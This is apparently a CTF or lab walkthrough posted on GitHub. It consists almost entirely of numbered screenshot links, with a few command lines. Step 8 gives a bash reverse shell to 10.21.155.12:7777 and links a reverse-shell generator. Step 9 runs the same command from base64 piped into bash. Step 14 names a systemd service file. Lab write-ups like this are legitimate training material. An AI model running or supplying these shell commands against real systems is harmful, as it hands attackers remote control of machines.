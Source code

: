 1.
![image](https://github.com/user-attachments/assets/0f0e1839-d493-44a9-87d8-b75984fd3288)
2.
![image](https://github.com/user-attachments/assets/fd400608-a2ce-4dba-bbd0-cc54c61a6b56)
3.
![image](https://github.com/user-attachments/assets/91f7dfb3-510c-4bb1-b64e-231b121a1ee1)
4.
![image](https://github.com/user-attachments/assets/8f081f6c-1272-45f5-b09e-504fa0a86c36)
5.
![image](https://github.com/user-attachments/assets/c8d2e2cc-ae07-448c-bd3c-c6a5390b76e1)
6.
![image](https://github.com/user-attachments/assets/ad9f7c1e-7de6-491d-b776-595e1f951882)
7.
![image](https://github.com/user-attachments/assets/22c06f8c-a91b-4d39-832a-587069b52c0d)
8. [script](https://www.revshells.com/) <br>
**Command: sh -i >& /dev/tcp/10.21.155.12/7777 0>&1** <br>
![image](https://github.com/user-attachments/assets/be6d802a-3385-4831-8f43-2c71cd36f0d6)
9.
<b> Command: echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuMTU1LjEyLzc3NzcgMD4mMQo= | base64 -d | bash <b> <br>
![image](https://github.com/user-attachments/assets/7efd6c4a-a501-400a-8e18-58e91d346d8f) <br>
10.
![image](https://github.com/user-attachments/assets/366ed2d5-7df8-45c6-ad2a-7a79a79e3e65)
11.
![image](https://github.com/user-attachments/assets/f40f35a4-a72d-4f6a-bfc6-9f2e4908a729)
12.
![image](https://github.com/user-attachments/assets/fdd5a249-a12b-4afa-b79c-22feeec9a8c9)
13.
![image](https://github.com/user-attachments/assets/01e432b1-b6c8-4c7c-80b0-ad78a7738ba7)
14. /etc/systemd/system/zeno-monitoring.service <br>
![image](https://github.com/user-attachments/assets/2a3ee024-d92c-40bb-952c-82696d2ba0c3)
15.
![image](https://github.com/user-attachments/assets/7e0c50fa-c10b-436a-91ec-1d843bf524db)
16.
![image](https://github.com/user-attachments/assets/52c0e7e5-d4cc-48b6-b8e0-dbb59c165d04)
17.
![image](https://github.com/user-attachments/assets/a862838c-f285-46da-b685-20675f3e5d28)

